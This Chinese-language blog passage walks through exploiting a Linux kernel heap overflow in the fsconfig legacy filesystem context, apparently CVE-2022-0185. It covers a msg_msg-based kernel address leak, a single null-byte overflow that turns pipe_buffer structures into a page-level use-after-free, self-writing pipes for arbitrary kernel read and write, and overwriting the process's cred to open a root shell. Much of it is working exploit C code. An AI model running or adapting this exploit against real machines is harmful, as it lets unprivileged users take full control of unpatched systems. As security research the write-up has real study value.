之后发现这里应该是由于多核心的缘故，导致`kmalloc`有一定几率转到别的核心`CPU`上面分配，所以导致的失败，所以这里进行一个简单的绑核即可寻找到固定偏移，如下：（后期考证也发现不绑核也可以成功，但成功率会大大下降，所以这里我们绑核了较好）


下面的泄露`poc`也进行了相应修改

```
#define _GNU_SOURCE 

#include 

#include 

#include 

#include 

- 

#include 

#include 

#include 

#include 

#include 

#include 

#define IPC_PRIVATE (long)0

#define IPC_CREAT  00001000   /* create if key is nonexistent */

#define IPC_NOWAIT 00004000   /* return error on wait */

#define MSG_NOERROR     010000  /* no error if message is too big */

#define MSG_COPY        040000  /* copy (not remove) all queue messages */

#define SINGLE_START_OFFSET 0x35f200

#ifndef __NR_fsopen

#define __NR_fsopen 430

#endif

#ifndef __NR_fsconfig

#define __NR_fsconfig 431

#endif

#ifndef __NR_msgget

#define __NR_msgget 186

#endif

#ifndef __NR_msgget

#define __NR_msgsnd 189

#endif

#ifndef __NR_msgget

#define __NR_msgrcv 188

#endif

/* to run the exp on the specific core only */

void bind_cpu(int core)

{

    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);

    CPU_SET(core, &cpu_set);

    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

}

int fd;                 /* using by filesystem */

typedef struct{

    long mtype;          /* type of message */

        char mtext[1];                  /* message text */

}msg;

#define PRINT_ADDR(str, x) printf("\033[0m\033[1;34m[+]%s \033[0m:0x%lx\n", str, x)

void info_log(char* str){

         printf("\033[0m\033[1;32m[+]%s\033[0m\n",str);

}

void error_log(char* str){

  printf("\033[0m\033[1;31m[-]%s\033[0m\n",str);

  exit(1);

}

long get_msg(int key, int msgflg){

    return msgget(key, msgflg);

}

long send_msg(int msqid, void* msgp, size_t msgsz, int msgflg){

    return msgsnd(msqid, msgp, msgsz, msgflg);

}

long recv_msg(int msqid, void* msgp, size_t msgsz, long msgtyp, int msgflg){

    return msgrcv(msqid, msgp, msgsz, msgtyp, msgflg);

}

int fsopen(const char *fs_name, unsigned int flags)

{

    return syscall(__NR_fsopen, fs_name, flags);

}

int fsconfig(int fsfd, unsigned int cmd, 

             const char *key, const void *val, int aux)

{

    return syscall(__NR_fsconfig, fsfd, cmd, key, val, aux);

}

uint64_t do_check_leak(char *buf) 

{

    uint64_t kbase = ((unsigned long*)buf)[510];

    if(!kbase){

        return 0;

    }   

    kbase -= SINGLE_START_OFFSET; 

    return kbase;

}

uint64_t do_leak(){

    uint64_t kernel_base;

    char pat[0x1000] = {0};

    char buffer[0x2000] = {0}, recieved[0x2000] = {0};      //PAGE_SIZE*2

    int targets[0x10] = {0};

    msg* message = (msg* )(buffer); 

    int size = 0x1018;      

    /* msg_msg: (0x30)head, (0xfd0)message_0

     * msg_msgseg: (0x8)head, (0x18)message_1, for kmalloc-32 :)

     * */

    /* spray the msg_msg */

    for(int i = 0; i m_ts");

    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);

    info_log("heap overflow done");

    info_log("Start spraying kmalloc-32 for seq_operations");

    size = 0x1060;

    for(int i = 0; i 
```

## 2. userfaultfd 利用

泄露完内核基地址后，我们就该考虑如何进行利用了，这里在读完源码之后可以发现，在我们调用`msgsnd`的过程中，走到`load_msg`这样一个函数，会使用`copy_from_user`来将我们传入的`buf`传递给创建的`msg`当中


```
struct msg_msg *load_msg(const void __user *src, size_t len)
{
        struct msg_msg *msg;
        struct msg_msgseg *seg;
        int err = -EFAULT;
        size_t alen;

        msg = alloc_msg(len);
        if (msg == NULL)
                return ERR_PTR(-ENOMEM);

        alen = min(len, DATALEN_MSG);
        if (copy_from_user(msg + 1, src, alen))                 //这里会访问到我们的 __user *src指针，那么此时可以发动我们的userfaultfd来将其卡在这里
                goto out_err;

        for (seg = msg->next; seg != NULL; seg = seg->next) {
                len -= alen;
                src = (char __user *)src + alen;
                alen = min(len, DATALEN_SEG);
                if (copy_from_user(seg + 1, src, alen))
                        goto out_err;
        }

        err = security_msg_msg_alloc(msg);
        if (err)
                goto out_err;

        return msg;

out_err:
        free_msg(msg);
        return ERR_PTR(err);
}
```
我们知道，当我们走到`load_msg`的时候，会首先通过`alloc_msg`来分配一个`msg_msg`数据结构，很有可能也包括`msg_msgseg`，分配好空间返回到`load_msg`后，则会调用`copy_from_user`来将我们用户空间的内容复制到`msg_msg`当中，这时如果我们在分配好空间之后，调用`copy_from_user`之前将我们分配的`msg_msg->next`指针修改一下，那么就可以达成一个任意写的功效
需要实现这样时机巧妙的操作，在内核版本5.11以前我们可以利用`userfaultfd`这样的条件竞争手法

## 3. 空字节堆溢出
该解法甚是巧妙，第一次出现于[//arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE/" target="_blank" rel="noopener noreferrer nofollow"](https://arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE/:rel="nofollow noopener" href="https)并被应用到该漏洞之中，该解法既可以在简单的pwn环境下使用，也可以不用考虑到内核5.11后`userfaultfd`的使用权限问题。且仅需要堆溢出1个空字节即可完成提权。牛牛爆了(bushi

## 1. 初期知识准备
我们该如何使用仅仅一个字节来达成地址泄露甚至说是权限提升呢？这里我们考虑到某些结构体，在不破坏其结构形式的情况下，仅溢出一字节是一个很好的办法，但是介于内核中地址的随机性，我们不如将其定为溢出空字节
如果说这里我们溢出到的某个结构体开头第一个字段为一个指针，那么这样我们就可以修改指针地址，使其指向我们尽可能可以操纵的地区，这里根据博客的提示，我们就可以选用`pipe_buffer`这个结构体进行利用，他的数据结构如下：
```
/**
 *        struct pipe_buffer - a linux kernel pipe buffer
 *        @page: the page containing the data for the pipe buffer
 *        @offset: offset of data inside the @page
 *        @len: length of data inside the @page
 *        @ops: operations associated with this buffer. See @pipe_buf_operations.
 *        @flags: pipe buffer flags. See above.
 *        @private: private data owned by the ops.
 **/
struct pipe_buffer {
        struct page *page;
        unsigned int offset, len;
        const struct pipe_buf_operations *ops;
        unsigned int flags;
        unsigned long private;
};
```
这里简单说一下在本次利用当中较为重要字段的含义
- `page`：该`pipe_buffer`所容纳内容的页面
- `offset`：该`pipe_buffer`数据在`page`页面的偏移，同时也是`read`系统调用的指针所在
- `len`：该`pipe_buffer`数据总共的长度，`offset`+`len`就是`write`系统调用的指针所在
可以看到该结构体开头即为`struct page`的一个指针，且该`page`结构体大小为`0x40`字节，其刚好可以被`0x100`整除（也就是说`page`结构体指针的低一字节只可能是`\x00`, `\x40`, `\x80`, `\xc0`），因此我们即可断定在堆喷的情况下，我们可以覆盖某个`pipe_buffer`的开头低一字节为`\x00`，来使得他指向某个其他`pipe_buffer`指向的`page`结构体，具体情况如下：

上面是初始分配的两个`pipe_buffer`,接下来我们假定其中一个`pipe_buffer`的`page`指针低一子节为`\x00`（1/4的概率
然后我们利用空字节溢出，将下面低字节非`\x00`进行溢出

此时即可将两者的指针指向同一个`page`结构体，然后通过释放其中一个管道来使得构造成页级UAF
但是这里的一个问题就是，`pipe_buffer`每次调用是从`kmalloc-cg-1k`进行获取，伙伴系统中则是从`order-2`当中取得，而我们的`legacy_data`则是从`kmalloc-cg-4k`中获取，伙伴系统则是从`order-3`当中取出，因此我们不能通过寻常的函数获取`pipe_buffer`,如下：

```
do_pipe2
        __do_pipe_flags
                create_pipe_files
                        get_pipe_inode                         //对于该管道inode的fops赋值为pipefifo_fops
                                alloc_pipe_info
                                        kzalloc(sizeof(struct pipe_inode_info), GFP_KERNEL_ACCOUNT)
                                        kcalloc(pipe_bufs, sizeof(struct pipe_buffer), GFP_KERNEL_ACCOUNT)
```
该链条会导致`pipe_buffer`从`kmalloc-cg-1k`当中获取，其中`pipe_bufs`在函数开头被指定为一个常数16，且`pipe_buffer`结构体的大小为`0x28`,这俩相乘了分配得512,因此他会从`kmalloc-cg-1k`、`order-2`当中取得
所以这里我们考虑其他的方式来修改我们`pipe_buffer`的大小
要改这个`kcalloc`中`pipe_bufs`的大小，在`pipe`系统调用的过程中是万不可行，但是我们可以利用到`fcntl`这样一个系统调用，我们可以来稍微查看一下其中的源码
```
SYSCALL_DEFINE3(fcntl, unsigned int, fd, unsigned int, cmd, unsigned long, arg)
{        
        struct fd f = fdget_raw(fd);
        long err = -EBADF;
        if (!f.file)
                goto out;
        if (unlikely(f.file->f_mode & FMODE_PATH)) {
                if (!check_fcntl_cmd(cmd))
                        goto out1;
        }
        err = security_file_fcntl(f.file, cmd, arg);
        if (!err)
                err = do_fcntl(fd, cmd, arg, f.file);
out1:
         fdput(f);
out:
        return err;
}
static long do_fcntl(int fd, unsigned int cmd, unsigned long arg,
                struct file *filp)
{
        void __user *argp = (void __user *)arg;
        struct flock flock;
        long err = -EINVAL;
    switch (cmd) {
        ...
                case F_SETPIPE_SZ:
                case F_GETPIPE_SZ:
                err = pipe_fcntl(filp, cmd, arg);
                break;
        ...
                default:
                break;
        }
        return err;
}
```
通过`cmd`指令`F_SETPIPE_SZ`,我们可以调用`pipe_fcntl`这样一个函数
```
long pipe_fcntl(struct file *file, unsigned int cmd, unsigned long arg)
{
        struct pipe_inode_info *pipe;
        long ret;

        ...
        switch (cmd) {
        case F_SETPIPE_SZ:
                ret = pipe_set_size(pipe, arg);
                break;
                ...
        }

        __pipe_unlock(pipe);
        return ret;
}
```
调用`pipe_set_size`，这个函数对我们的诱惑极大，光函数名即可猜测其中我们可以设置`pipe_buffer`的大小
```
/*
 * 分配一个pipe_buffer的新数组（也就是调用了kcalloc) 并且把以往的数据复制到上面. 
 * 如果成功则返回大小, 错误则返回-ERROR .
 */
static long pipe_set_size(struct pipe_inode_info *pipe, unsigned long arg)
{
        unsigned long user_bufs;
        unsigned int nr_slots, size;
        long ret = 0;
        size = round_pipe_size(arg);
        nr_slots = size >> PAGE_SHIFT;
        ...
        ret = pipe_resize_ring(pipe, nr_slots);
        ...
        return ret;
}
```
这里调用`pipe_resize_ring`来重新分配`pipe_buffer`


```c
/*
 * Resize the pipe ring to a number of slots.
 */
int pipe_resize_ring(struct pipe_inode_info *pipe, unsigned int nr_slots)
{
        ...

        bufs = kcalloc(nr_slots, sizeof(*bufs),
                       GFP_KERNEL_ACCOUNT | __GFP_NOWARN);
        ...
        kfree(pipe->bufs);
        pipe->bufs = bufs;
        pipe->ring_size = nr_slots;
        if (pipe->max_usage > nr_slots)
                pipe->max_usage = nr_slots;
        pipe->tail = tail;
        pipe->head = head;

        /* This might have made more room for writers */
        wake_up_interruptible(&pipe->wr_wait);
        return 0;
}
```

可以看到，我们此时传入的`nr_slots`若为64，也就是之前的4倍，那么总共分配得大小为2k我们便可以将我们的`pipe_buffer`从`kmalloc-cg-4k`当中分配，就可以和我们之前的`legacy_data`进行互动

## 2. 任意地址读/写

接下来我们将从单字节的溢出，直到实现任意地址读写

### step I：构造1级UAF

我们首先大量堆喷`pipe`,这是为了之后我们重复分配提供条件，

然后我们同之前基地址泄露类似，堆喷`msg_msg`,然后我们就可以利用溢出来将`msg_msg`的`m_ts`字段覆盖为一个大值来进行越界读，会成为下面这种情况


这样我们就可以再次通过任意写再来覆盖相邻的`msg_msg`的下一个`msg_msg`,且刚好溢出一个空子节

（为什么不直接溢出`legacy_fs_context`的相邻`msg_msg`呢，这是因为我们由于需要创造一个漏洞的整数溢出，所以在我们溢出的第一个相邻`msg_msg`的时候必定会写入一个=和`\x00`，因此我们选则溢出到下一个4k页面）

而本次我们利用到的结构体为`pipe_buffer`，根据上面我们的初期知识准备知道，我们可以通过`fcntl`来修改`pipe_buffer`的大小，我们将其改为一次分配64个`buffer`，也就是64*0x28大小，该堆块刚好也是从`order-3`来分配，因此我们可以通过释放掉`msg_msg`接着利用`fcntl`重分配`pipe_buffer`来构造溢出条件


这样我们继续写入`legacy_data`，直到恰好使得我们（broken）`msg_msg`下一个相邻`pipe_buffer`的`page`指针低1字节为`\x00`


这样我们大概率就可以构造出两个`pipe_buffer`同时指向同一个`page`,情况如下：


### step II：构造二级UAF

此时我们如果释放掉其中一个`pipe`,那么我们就会释放掉该`page`对应的物理页面，因此就构成了一个`UAF`，此时我们若再次分配`pipe_buffer`，我们就会从刚释放掉的4k obj当中分配，就构成如下情况


此时我们可以再次构造一个`UAF`，这里构造的目的主要是为了任意修改之后的页面，然后我们再次重复上次的操作，再次重分配`pipe_buffer`如下：



### step III：构造自写管道

这里我们已知将目前二级`UAF`所指向的页面分配了多个`pipe_buffer`，此时我们将其中的一个`pipe_buffer`指向上一级，也就是自身物理页面所对应的`struct page`，如下：


此时我们的最后一级`pipe_buffer`就可以往自身存在的页面进行写入了

### step IV：构造任意读写系统

我们目前可以写入自身的页面，看起来好像跟任意读写没什么关联，但接下来构造的读写系统才算是精妙所在

首先我们同时构建三个上述的自写管道



当同时在一个`page`内存在三个自写管道时，我们就可以通过不断修改他们之间的`offset`/`len`字段来达成重复的利用读/写，其中各个管道的功能如下

- 管道1用来在任意内存中进行读/写
- 管道2用来修正复原我们的管道3
- 管道3用来修改我们的管道1和恢复我们的管道2

通过上面三个自写管道我们就可以达成任意地址读写，这个系统可能在讲述时不好理解，这里需要对于其中的代码以及`pipe_buffer`的布局了解透彻才想的清楚，但是想清楚之后是十分顺畅的~

## 3. 地址泄漏和权限提升

我们知道`page`对于物理地址页面的映射是线性的，而`struct page`数据结构体数组存放在`vmemmap`区域


因此若我们知道了`vmemmap_base`基地址，则可以读写数组当中所有的物理页面

```
========================================================================================================================
    Start addr    |   Offset   |     End addr     |  Size   | VM area description

========================================================================================================================

                  |            |                  |         |

 0000000000000000 |    0       | 00007fffffffffff |  128 TB | user-space virtual memory, different per mm

__________________|____________|__________________|_________|___________________________________________________________

                  |            |                  |         |

 0000800000000000 | +128    TB | ffff7fffffffffff | ~16M TB | ... huge, almost 64 bits wide hole of non-canonical

                  |            |                  |         |     virtual memory addresses up to the -128 TB

                  |            |                  |         |     starting offset of kernel mappings.

__________________|____________|__________________|_________|___________________________________________________________

                                                            |

                                                            | Kernel-space virtual memory, shared between all processes:

____________________________________________________________|___________________________________________________________

                  |            |                  |         |

 ffff800000000000 | -128    TB | ffff87ffffffffff |    8 TB | ... guard hole, also reserved for hypervisor

 ffff880000000000 | -120    TB | ffff887fffffffff |  0.5 TB | LDT remap for PTI

 ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)

 ffffc88000000000 |  -55.5  TB | ffffc8ffffffffff |  0.5 TB | ... unused hole

 ffffc90000000000 |  -55    TB | ffffe8ffffffffff |   32 TB | vmalloc/ioremap space (vmalloc_base)

 ffffe90000000000 |  -23    TB | ffffe9ffffffffff |    1 TB | ... unused hole

 ffffea0000000000 |  -22    TB | ffffeaffffffffff |    1 TB | virtual memory map (vmemmap_base)

 ffffeb0000000000 |  -21    TB | ffffebffffffffff |    1 TB | ... unused hole

 ffffec0000000000 |  -20    TB | fffffbffffffffff |   16 TB | KASAN shadow memory

__________________|____________|__________________|_________|____________________________________________________________

                                                            |

                                                            | Identical layout to the 56-bit one from here on:

____________________________________________________________|____________________________________________________________

                  |            |                  |         |

 fffffc0000000000 |   -4    TB | fffffdffffffffff |    2 TB | ... unused hole

                  |            |                  |         | vaddr_end for KASLR

 fffffe0000000000 |   -2    TB | fffffe7fffffffff |  0.5 TB | cpu_entry_area mapping

 fffffe8000000000 |   -1.5  TB | fffffeffffffffff |  0.5 TB | ... unused hole

 ffffff0000000000 |   -1    TB | ffffff7fffffff |  0.5 TB | %esp fixup stacks

 ffffff8000000000 | -512    GB | ffffffeeffffffff |  444 GB | ... unused hole

 ffffffef00000000 |  -68    GB | fffffffeffffffff |   64 GB | EFI region mapping space

 ffffffff00000000 |   -4    GB | ffffffff7fffffff |    2 GB | ... unused hole

 ffffffff80000000 |   -2    GB | ffffffff9fffffff |  512 MB | kernel text mapping, mapped to physical address 0

 ffffffff80000000 |-2048    MB |                  |         |

 ffffffffa0000000 |-1536    MB | fffffffffeffffff | 1520 MB | module mapping space

 ffffffffff000000 |  -16    MB |                  |         |

    FIXADDR_START | ~-11    MB | ffffffffff5fffff | ~0.5 MB | kernel-internal fixmap range, variable size and offset

 ffffffffff600000 |  -10    MB | ffffffffff600fff |    4 kB | legacy vsyscall ABI

 ffffffffffe00000 |   -2    MB | ffffffffffffffff |    2 MB | ... unused hole

__________________|____________|__________________|_________|___________________________________________________________
```

而`KASLR`的粒度是256MB，所以根据上面构造自写管道的过程我们得到了一个`page`结构体的地址，通过它可以得出一个可能正确的`vmemmap_base`，也就是将低28位取0即可

这里说可能的原因也是因为当我们的内存大于16GB的时候，那么我们`pages`数组的大小便会大于(0x400000000/0x1000)*0x40= 0x10000000,此时就刚好超过`KASLR`的粒度，所以我们直接取0是一个可能的值，因此还需要判断一下获取到的`vmemmap_base`的正确性

至于正确性的判断，在实模式当中我们需要用到一个写入的汇编函数`secondary_startup_64`，该函数被应用到`linux`内核的启动过程中，且在物理内存偏移`0x9d000`的地方会存放该函数的一个指针，（这里固定的原因我猜可能是在由于实模式下直接使用物理地址，所以就直接将其存放在固定的位置拿来使用）

我们同样可以将内核用`objdump`进行查看也可以看到该函数，就刚好处于开头这一部分



可以看到他的一个地址是在内核`text`代码段偏移`0x30`的地址，因此我们使用这个点来进行检测

通过上述方法，我们即可得到内核基地址，此时我们还需要知道我们的`page_offset_base`,也就是我们`physmap`所对应的虚拟地址，此时用到`task_struct`中的一个字段`ptraced`,该字段在我们的进程没有被附加的时候会指向其自身，且该地址位于我们的`physmap`当中


## 任意地址读写与进程查找

当我们知道了`physmap`线性映射区的基地址，那么我们就可以知道某个虚拟地址所对应的`page`结构体，因此就达成了真正意义上的任意地址读写。此时我们可以利用它来找到我们本进程的`task_struct`（寻找的方式就是利用`prctl()`函数的`PR_SET_NAME`来修改进程`taskt_struct`的`comm`字段，使用它来做一个标记，然后在页面寻找），然后通过其中的`parent`字段向上寻找，也就是不断找寻父进程，直到找到最终的`init`进程。但是我个人在调试过程中发现最终找到的是`swapper`进程，其`pid`为0，`init`进程`pid`为1，但是这并不影响最终我们的提权。

## 提权

最终我们只需要将`init`/`swapper`进程的`cred`字段的地址赋值给当前进程的`cred`字段即可达成提权，效果如下：


最终的`exploit`如下：


```c
#define _GNU_SOURCE 
#include 
#include 
#include 
#include 
#include 
- 
#include 
#include 
#include 
#include 
#include 
#include 
#include 
#include 
#include 
#include 

#define MSG_NOERROR     010000  /* no error if message is too big */
#define MSG_COPY        040000  /* copy (not remove) all queue messages */

#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif

#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif

#ifndef __NR_msgget
#define __NR_msgget 186
#endif

#ifndef __NR_msgget
#define __NR_msgsnd 189
#endif

#ifndef __NR_msgget
#define __NR_msgrcv 188
#endif

/* to run the exp on the specific core only */
void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}

int fs_fd;                 /* using by filesystem */

#define PRINT_ADDR(str, x) printf("\033[0m\033[1;34m[+]%s \033[0m:0x%lx\n", str, x)

void info_log(char* str){
         printf("\033[0m\033[1;32m[+]%s\033[0m\n",str);
}

void error_log(char* str){
  printf("\033[0m\033[1;31m[-]%s\033[0m\n",str);
  exit(1);
}

long get_msg(void){
    return msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
}

long send_msg(int msqid, void* msgp, size_t msgsz, long msgflg){
    ((struct msgbuf *)msgp)->mtype = msgflg;
    return msgsnd(msqid, msgp, msgsz, 0);
}

long recv_msg(int msqid, void* msgp, size_t msgsz, long msgtyp){
    return msgrcv(msqid, msgp, msgsz, msgtyp, 0);
}

long copy_msg(int msqid, void* msgp, size_t msgsz, long msgtyp){
    return msgrcv(msqid, msgp, msgsz, msgtyp, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
}

int fsopen(const char *fs_name, unsigned int flags)
{
    return syscall(__NR_fsopen, fs_name, flags);
}

int fsconfig(int fsfd, unsigned int cmd, 
             const char *key, const void *val, int aux)
{
    return syscall(__NR_fsconfig, fsfd, cmd, key, val, aux);
}

void prepare_for_overwrite(){
    puts("Opening the ext4 filesystem");
    fs_fd = fsopen("ext4", 0);
    if (fs_fd m_ts...");
    fsconfig(fs_fd, FSCONFIG_SET_STRING, "\x00", "\xc8\x1f", 0);
    puts("Trying to make an oob read...");
    for(int i = 0; i  MSG_SZ){
            victim_qidx = i;
            break;
        }
    }
    if(victim_qidx == -1){
        error_log("failed to find the victim_qidx!");
    }
    printf("\033[0m\033[1;34mWe found the victim_msq_queue_idx\033[0m:%d\n", victim_qidx);
}

int victim_pid = -1, orig_pid;

void construct_first_uaf(){
    size_t buf[0x1000];
    info_log("Step II:Construct the first page level uaf");
    puts("We need to free the msg_msg except the corrupted one!");
    for(int i = 0; i page    :%p\033[0m\n", info_pipe_buffer.page);
    printf("\033[0m\033[1;34minfo_pipe_buffer->offset  :%d\033[0m\n", info_pipe_buffer.offset);
    printf("\033[0m\033[1;34minfo_pipe_buffer->len     :%d\033[0m\n", info_pipe_buffer.len);
    printf("\033[0m\033[1;34minfo_pipe_buffer->ops     :%p\033[0m\n", info_pipe_buffer.ops);
    printf("\033[0m\033[1;34minfo_pipe_buffer->flags   :%d\033[0m\n", info_pipe_buffer.flags);
    printf("\033[0m\033[1;34minfo_pipe_buffer->private :%ld\033[0m\n", info_pipe_buffer.private);

    for(int i = 0; i  0xffffffff81000000 && (page_buf[0]&0xfff) == 0x030){
            kernel_base = page_buf[0] - 0x30;
            kernel_offset = kernel_base -  0xffffffff81000000;
            printf("\033[0m\033[1;34mkernel_base    :%p\033[0m\n", (void*)kernel_base);
            printf("\033[0m\033[1;34mkernel_offset  :%p\033[0m\n", (void*)kernel_offset);
            break;
        }
        try_hits++;
        if(try_hits == 5){
            vmemmap_base -= 0x10000000;
            try_hits = 0;
        }
    }

    printf("\033[0m\033[1;34mvmemmap_base   :%p\033[0m\n", (void*)vmemmap_base);
    puts("Leak the page_offset_base...");

    for(int i = 1; 1 ;i++){
        arbitrary_read_by_pipe((struct page*)(vmemmap_base + (i-1)*0x40), page_buf);
        arbitrary_read_by_pipe((struct page*)(vmemmap_base + i*0x40), &((char*)page_buf)[0x1000]);
        /* find the struct task_struct.comm */
        comm_addr = (size_t*)memmem(page_buf, 0x1ff0,"PEIWITHHAO", 10);
        if(comm_addr == NULL){
            continue;
        }
        if((((size_t)comm_addr - (size_t)page_buf)&0xfff)  0xffff888000000000       /* task.cred        */
           &comm_addr[-3] > 0xffff888000000000      /* task.real_cred   */ 
           &comm_addr[-52] > 0xffff888000000000     /* task.parent      */
           &comm_addr[-53] > 0xffff888000000000){   /* task.real_parent */
            parent_task = comm_addr[-53];
            ptraced = comm_addr[-46];               /* task.ptraced     */
            current_task = (comm_addr[-46] - 2280);        /* current_task */
            page_offset_base = (size_t)current_task - i*0x1000;
            page_offset_base &= 0xfffffffff0000000;
            PRINT_ADDR("current_task", current_task);
            PRINT_ADDR("parent_task", parent_task);
            PRINT_ADDR("page_offset_base", page_offset_base);

            break;
        }
    }
}

size_t direct_mapping_addr2page(size_t addr){
    size_t page_nr = ((addr&(~0xfff)) - page_offset_base)/0x1000;
    return (vmemmap_base + page_nr*0x40);
}

size_t page_buf[0x8000];
size_t init_task, init_cred, init_nsproxy;
void priviledge_escalation(){
    size_t *task_buf;
    size_t parent_page;
    info_log("Step VI:Hijack the current_task to get the root...");
    for(;;){
        parent_page = direct_mapping_addr2page(parent_task);
        task_buf = (size_t*)((size_t)page_buf + (parent_task & 0xfff));
        arbitrary_read_by_pipe((struct page*)parent_page, page_buf);
        arbitrary_read_by_pipe((struct page*)(parent_page + 0x40), &page_buf[0x1000/8]);

        /* task_struct.real_parent offset is 2224 */
        if(parent_task == task_buf[2224/8]){
            break;
        }
        parent_task = task_buf[2224/8];
    }
    init_task = parent_task;
    /* task_struct.cred offset is 2632 */
    init_cred = task_buf[2632/8];
    init_nsproxy = task_buf[341];
    PRINT_ADDR("init_task", (size_t)init_task);
    PRINT_ADDR("init_cred", (size_t)init_cred);
    PRINT_ADDR("init_nsproxy", (size_t)init_nsproxy);

    puts("Escalating root priviledge now!");
    size_t current_page;
    current_page = direct_mapping_addr2page(current_task);

    memset(page_buf, '\x00', sizeof(page_buf));
    arbitrary_read_by_pipe((struct page*)current_page, page_buf);
    arbitrary_read_by_pipe((struct page*)(current_page + 0x40), &page_buf[0x1000/8]);

    task_buf = (size_t*)((size_t)page_buf + (current_task & 0xfff));
    task_buf[2632/8] = init_cred;
    task_buf[2624/8] = init_cred;
    task_buf[341] = init_nsproxy;
    arbitrary_write_by_pipe((struct page*)current_page, page_buf, 0xff0);
    arbitrary_write_by_pipe((struct page*)(current_page + 0x40), &page_buf[0x1000/8], 0xff0);
    puts("[+]Done!");
}

void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m Execve root shell now...\033[0m");

    system("/bin/sh");

    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}
int msg_pipe[2];
int main(void)
{   
    pipe(msg_pipe);
    bind_cpu(0);

    if(!fork()){
        unshare(CLONE_NEWNS | CLONE_NEWUSER);
        occupy_4k_obj_by_msg();sleep(1);
        construct_first_uaf();sleep(1);
        construct_second_uaf();sleep(1);
        build_self_writing_pipe();sleep(1);
        info_leaking_by_arbitrary_pipe();sleep(1);
        priviledge_escalation();
        write(msg_pipe[1], "peiwithhao", 10);
        sleep(114514);
        return 0;
    }else{
        if(prctl(PR_SET_NAME, "PEIWITHHAO")
```
## 参考文章
- [//zhuanlan.zhihu.com/p/67686817" target="_blank" rel="noopener noreferrer nofollow"](https://zhuanlan.zhihu.com/p/67686817:rel="nofollow noopener" href="https)
- [//arttnba3.cn/2023/01/11/CVE-0X09-CVE-2022-0185/#0x00-%E4%B8%80%E5%88%87%E5%BC%80%E5%A7%8B%E4%B9%8B%E5%89%8D" target="_blank" rel="noopener noreferrer nofollow"](https://arttnba3.cn/2023/01/11/CVE-0X09-CVE-2022-0185/#0x00-%E4%B8%80%E5%88%87%E5%BC%80%E5%A7%8B%E4%B9%8B%E5%89%8D:rel="nofollow noopener" href="https)
- [//patchwork.kernel.org/project/linux-security-module/cover/153754740781.17872.7869536526927736855.stgit@warthog.procyon.org.uk/" target="_blank" rel="noopener noreferrer nofollow"](https://patchwork.kernel.org/project/linux-security-module/cover/153754740781.17872.7869536526927736855.stgit@warthog.procyon.org.uk/:rel="nofollow noopener" href="https)
- [//rust-for-linux.github.io/docs/kernel/fs/flags/constant.ALLOW_IDMAP.html" target="_blank" rel="noopener noreferrer nofollow"](https://rust-for-linux.github.io/docs/kernel/fs/flags/constant.ALLOW_IDMAP.html:rel="nofollow noopener" href="https)
- [//www.willsroot.io/2022/01/cve-2022-0185.html" target="_blank" rel="noopener noreferrer nofollow"](https://www.willsroot.io/2022/01/cve-2022-0185.html:rel="nofollow noopener" href="https)
- [//www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html" target="_blank" rel="noopener noreferrer nofollow"](https://www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html:rel="nofollow noopener" href="https)
- [//bsauce.github.io/2022/04/08/CVE-2022-0185/" target="_blank" rel="noopener noreferrer nofollow"](https://bsauce.github.io/2022/04/08/CVE-2022-0185/:rel="nofollow noopener" href="https)
- [//arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE/" target="_blank" rel="noopener noreferrer nofollow"](https://arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE/:rel="nofollow noopener" href="https)
- [//docs.kernel.org/admin-guide/kdump/vmcoreinfo.html" target="_blank" rel="noopener noreferrer nofollow"](https://docs.kernel.org/admin-guide/kdump/vmcoreinfo.html:rel="nofollow noopener" href="https)
- [//cv196082.gitee.io/2023/05/24/pipe-buffer/" target="_blank" rel="noopener noreferrer nofollow"](https://cv196082.gitee.io/2023/05/24/pipe-buffer/:rel="nofollow noopener" href="https)
